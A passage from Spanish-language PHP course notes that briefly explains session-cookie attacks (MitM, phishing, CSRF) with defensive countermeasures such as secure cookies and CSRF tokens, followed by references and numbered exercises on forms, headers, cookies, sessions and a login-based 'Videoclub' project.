Content-Security-Policy: script-src 'self';
```

#### 2. **Ataque de Man-in-the-Middle (MitM)**

Si el sitio no utiliza HTTPS, un atacante puede interceptar el tráfico y capturar cookies de sesión no cifradas.

Ejemplo: El atacante usa herramientas como Wireshark para capturar cookies en una red pública.

Contramedidas:

- Usar HTTPS: Asegura que todas las conexiones sean a través de HTTPS.
- Configurar cookies como `Secure`:

``` php
session_set_cookie_params(['secure' => true]);
```

#### 3. **Robo de Cookies con Ingeniería Social o Phishing**
El atacante engaña al usuario para que acceda a un enlace malicioso y revela su cookie de sesión.

Ejemplo: El atacante envía un enlace de phishing simulando la página de inicio de sesión.

Contramedidas:

- Educación sobre phishing: Enseña a los usuarios a identificar sitios y correos fraudulentos.
- Autenticación de dos factores (2FA): Añade una capa extra de seguridad.

#### 4. **Cross-Site Request Forgery (CSRF)**
CSRF, o falsificación de petición en sitios cruzados, es un ataque web malicioso donde un atacante engaña a un usuario para que transmita comandos no autorizados a un sitio en el que confía. 

Ejemplo: Un enlace malicioso ejecuta una solicitud usando la sesión activa del usuario en otro sitio web.

``` html

```

Contramedidas:

- Uso de tokens CSRF:

``` php
// Generar token
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
echo '<input type="hidden" name="csrf_token" value="'.$_SESSION['csrf_token'].'">';

// Validar token
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('Solicitud inválida');
}
```

- Configurar cookies con `SameSite`:

``` php
session_set_cookie_params(['samesite' => 'Strict']);
```

## 4.6 Referencias

* [Cookies en PHP](https://www.php.net/manual/es/features.cookies.php)
* [Manejo de sesiones en PHP](https://www.php.net/manual/es/book.session.php)

## 4.7 Actividades

### Variables de servidor

401. `401server.php`: igual que el ejemplo visto en los apuntes, muestra los valores de `$_SERVER` al ejecutar un script en tu ordenador.  
Prueba a pasarle parámetros por GET (y a no pasarle ninguno).  
Prepara un formulario (`401post.html`) que haga un envío por POST y compruébalo de nuevo.  
Crea una página (`401enlace.html`) que tenga un enlace a `401server.php` y comprueba el valor de `HTTP_REFERER`.

### Formularios

402. `402formulario.html` y `402formulario.php`: Crea un formulario que solicite:

    * Nombre y apellidos.
    * Email.
    * URL página personal.
    * Sexo (radio).
    * Número de convivientes en el domicilio.
    * Aficiones (checkboxes) – poner mínimo 4 valores.
    * Menú favorito (lista selección múltiple) – poner mínimo 4 valores.
     
    Muestra los valores cargados en una tabla-resumen.

403. `403validacion.php`: A partir del formulario anterior, introduce validaciones en HTML mediante el atributo `required` de los campos (uso los tipos adecuados para cada campo), y comprueba que los tipos de los datos cumplen los valores esperados (por ejemplo, en los checkboxes que los valores recogidos forman parte de todos los posibles). Puedes probar a pasarle datos erroneos via URL y comprobar su comportamiento.  
Tip: Investiga el uso de la función `filter_var`.

404. `404subida.html` y `404subida.php`: Crea un formulario que permita subir un archivo al servidor.
Además del fichero, debe pedir en el mismo formulario dos campos numéricos que soliciten la anchura y la altura. Comprueba que tanto el fichero como los datos llegan correctamente.

405. `405subidaImagen.php`: Modifica el ejercicio anterior para que únicamente permita subir imágenes (comprueba la propiedad `type` del archivo subido). Si el usuario selecciona otro tipo de archivos, se le debe informar del error y permitir que suba un nuevo archivo.  
En el caso de subir el tipo correcto, visualizar la imagen con el tamaño de anchura y altura recibido como parámetro.

### Cabeceras

410. Crea los siguientes archivos:
    * `410redireccionExterna.php` que redirija automáticamente al usuario a la página oficial de PHP. 
    * `410redireccionInterna.php` que redirija a la página `402formulario.html`. 
    * `410redirecionTiempo.php` que redirija a una página externa pasados 3 segundos. Pista: `header("Refresh: 3; url=bienvenida.php");`

411. `411json.php`: Crea un array asociativo con los datos `["nombre" => "Jose", "edad" => 34]` y muéstralo convirtiéndolo antes a JSON mediante `json_encode(array)`. Ejecútalo cambiando en la cabecera el *tipo de contenido* probando `text/html`, `text/plain` y `application/json`.

412. `412nocache.php`: Muestra la hora actual mediante `date("H:i:s")` y evita que el navegador la guarde en caché. Recuerda recargar la página directamente desde la barra de direcciones del navegador y no pulsar el botón de recarga.

413. `413cabeceraError.php`: Muetra una página de error con el contenido `<h1>Error 404</h1><p>La página no existe.</p>` enviando el código 404 en el estado de la respuesta de la cabecera.

### Cookies y Sesión

420. `420aceptarCookies.php`: Nada más aterrizar en la página informa al usuario que debe aceptar las cookies para acceder al contenido. Crea un enlace para ello que envíe a la misma página por GET la variable `aceptar` y cuando se reciba, crees la cookie. En el contenido muestra una imagen cualquiera en el caso de que exista la cookie.

421. `421contadorVisitas.php`: Mediante el uso de cookies, informa al usuario de si es su primera visita, o si no lo es, muestre su valor (valor de un contador).
Además, debes permitir que el usuario reinicie su contador de visitas.

422. `422fondo.php`: Mediante el uso de cookies, crea una página con un desplegable con varios colores, de manera que el usuario pueda cambiar el color de fondo de la página (utiliza estilos CSS en la misma página).
Al cerrar la página, ésta debe recordar, al menos durante 24h, el color elegido y la próxima vez que se cargue la pagina, lo haga con el último color seleccionado.

423. `423fondoSesion1.php`: Modifica el ejercicio anterior para almacenar el color de fondo en la sesión y no emplear cookies. Además, debe contener un enlace al siguiente archivo.
    `423fondoSesion2.php`: Debe mostrar el color y dar la posibilidad de:
    * volver a la página anterior mediante un enlace
    * y mediante otro enlace, vaciar la sesión y volver a la página anterior.

424. Haciendo uso de la sesión, vamos a dividir el formulario del ejercicio `402formulario.php` en 2 subformularios:

    * `424formulario1.php` envía los datos (nombre y apellidos, email, url y sexo) a `424formulario2.php`.
    * `424formulario2.php` lee los datos y los mete en la sesión. A continuación, muestra el resto de campos del formulario a rellenar (convivientes, aficiones y menú). Envía estos datos a `424formulario3.php`.
    * `424formulario3.php` recoge los datos enviados en el paso anterior y junto a los que ya estaban en la sesión, se muestran todos los datos en una tabla/lista desordenada.

### Autenticación

En los siguientes ejercicios vamos a montar una estructura de inicio de sesión similar a la vista en los apuntes.

430. `430index.php`: formulario de inicio de sesión
431. `431login.php`: hace de controlador, por lo que debe comprobar los datos recibidos (solo permite la entrada de `usuario/usuario` y si todo es correcto, ceder el control a la vista del siguiente ejercicio. No contiene código HTML.
432. `432peliculas.php`: vista que muestra como título "Listado de Películas", y una lista desordenada con tres películas.
433. `433logout.php`: vacía la sesión y nos lleva de nuevo al formulario de inicio de sesión. No contiene código HTML.
434. `434series.php`: Añade un nueva vista similar a `432peliculas.php` que muestra un "Listado de Series" con una lista desordenada con tres series. Tanto `432peliculas.php` como la vista recien creadas, deben tener un pequeño menú (sencillo, mediante enlaces) que permita pasar de un listado a otro.
Comprueba que si se accede directamente a cualquiera de las vistas sin tener un usuario *logueado* via URL del navegador, no se muestra el listado.
435. Modifica tanto el controlador como las vistas para que:
     * los datos los obtenga el controlador (almacena en la sesión un array de películas y otro de series)
     * coloque los datos en la sesión
     * En las vistas, los datos se recuperan de la sesión y se *pintan* en la lista desordenada recorriendo el array correspondiente.
436. Selecciona uno de los mecanismos de autenticación vistos en el punto 4.5 y realiza un sistema de login utilizándolo. 

### Proyecto Videoclub 3.0

440. Para el Videoclub, vamos a crear una página `index.php` con un formulario que contenga un formulario de login/password. Se comprobarán los datos en `login.php`. Los posibles usuarios son admin/admin o usuario/usuario.
    * Si el usuario es correcto, en `main.php` mostrar un mensaje de bienvenida con el nombre del usuario, junto a un enlace para cerrar la sesión, que lo llevaría de nuevo al login.
    * Si el usuario es incorrecto, debe volver a cargar el formulario dando información al usuario de acceso incorrecto.

441. Si el usuario es administrador, se cargarán en la sesión los datos de soportes y clientes del videoclub que teníamos en nuestras pruebas (no mediante `include` sino copiando los datos e insertándolos en un array asociativo, el cual colocaremos posteriormente en la sesión). En unidades posteriores los obtendremos de la base de datos. En `mainAdmin.php`, además de la bienvenida, debe mostrar:
   * Listado de clientes
   * Listado de soportes

<figure style="float: right;">
    
    <figcaption>Esquema navegación ejercicio 423</figcaption>
</figure>

442. Vamos a modificar la clase `Cliente` para almacenar el `user` y la `password` de cada cliente.
Tras codificar los cambios, modificar el listado de clientes de `mainAdmin.php` para añadir al listado el usuario.

443. Si el usuario que accede no es administrador y coincide con alguno de los clientes que tenemos cargados tras el login, debe cargar `mainCliente.php` donde se mostrará un listado de los alquileres del cliente. Para ello, modificaremos la clase `Cliente` para ofrecer el método `getAlquileres() : array`, el cual llamaremos y luego recorreremos para mostrar el listado solicitado.

Ahora volvemos a la parte de administración

444. Además de mostrar el listado de clientes, vamos a ofrecer la opción de dar de alta a un nuevo cliente en `formCreateCliente.php`.
Los datos se enviarán mediante POST a `createCliente.php` que los introducirá en la sesión.
Una vez creado el cliente, debe volver a cargar `mainAdmin.php` donde se podrá ver el cliente insertado. Si hay algún dato incorrecto, debe volver a cargar el formulario de alta.

445. Crea en `formUpdateCliente.php` un formulario que permita editar los datos de un cliente.
Debes recoger los datos en `updateCliente.php`. Los datos de cliente se deben poder modificar desde la propia página de un cliente, así como desde el listado del administrador.

446. Desde el listado de clientes del administrador debes ofrecer la posibilidad de borrar un cliente.
En el navegador, antes de redirigir al servidor, el usuario debe confirmar mediante JS que realmente desea eliminar al cliente.
Finalmente, en `removeCliente.php` elimina al cliente de la sesión.
Una vez eliminado, debe volver al listado de clientes.

<figure style="align: center;">
    
    <figcaption>Esquema navegación Videoclub 3.0</figcaption>
</figure>
